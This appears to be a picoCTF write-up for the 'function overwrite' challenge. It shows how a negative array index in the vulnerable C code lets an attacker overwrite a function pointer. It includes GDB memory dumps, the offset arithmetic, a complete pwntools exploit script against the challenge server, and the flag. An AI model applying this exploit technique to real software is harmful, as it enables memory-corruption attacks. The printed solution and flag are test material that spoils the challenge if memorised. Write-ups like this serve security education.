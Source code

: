 # function overwrite

### Description
> Story telling class 2/2

### Solution
Look at this in source code.

```
  69   │ void (*check)(char*, size_t) = hard_checker;
  70   │ int fun[10] = {0};
```
```
  82   │   if (num1 < 10)
  83   │   {
  84   │     fun[num1] += num2;
  85   │   }
  86   │
  87   │   check(story, strlen(story));
  88   │ }
```

Look at this using GDB(gef),

(address of `check` is `0x0804c040` and address of `fun` is `0x804c080`)

```
Tell me a story and then I'll tell you if you're a 1337 >> 5
On a totally unrelated note, give me two numbers. Keep the first one less than 10.
0 5

...

gef➤  x/10xg 0x0804c040
0x804c040 <check>:      0x0000000008049436      0x0000000000000000
0x804c050:      0x0000000000000000      0x0000000000000000
0x804c060 <completed.7623>:     0x0000000000000000      0x0000000000000000
0x804c070:      0x0000000000000000      0x0000000000000000
0x804c080 <fun>:        0x0000000000000005      0x0000000000000000
```

you can see that `5` is stored in the number specified (index: `0`).

Therefore, enter `-16 100`, then

(`0x008049436 + 100 = 0x00804949a`)
```
0x804c040 <check>:      0x000000000804949a      0x0000000000000000
```

#### overwrite to `easy_check`
Address of `easy_check` is `0x080492fc`.
`0x008049436 - 0x080492fc = -314`.

Final solver

```
from pwn import *

#file = "./vuln"
host = "saturn.picoctf.net"
port = 50944
context(os = 'linux', arch = 'amd64')
context.log_level = 'debug'

io = remote(host, port)
#io = process(file)

# easy_check = 0x080492fc
# hard_check = 0x08049436

pld = b"AAAAAABGZZZZZZZZZ" #1337
io.sendlineafter(">> ", pld)
io.sendlineafter("10.", "-16 -314")

io.interactive()
#picoCTF{0v3rwrit1ng_P01nt3rs_789b0a98}
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)

